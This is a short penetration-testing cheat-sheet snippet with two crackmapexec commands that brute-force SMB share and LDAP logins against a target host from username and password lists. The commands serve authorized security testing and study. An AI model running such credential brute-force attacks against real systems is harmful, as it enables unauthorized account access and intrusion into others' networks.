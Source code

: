 # bruteforce smb shares

```bash
crackmapexec smb $rhost -u pot-user.txt -p pot-passwords.txt
```

# bruteforce ldap

```bash
crackmapexec ldap $rhost -u users.txt --kdcHost $rhost -p 'some.password'
```
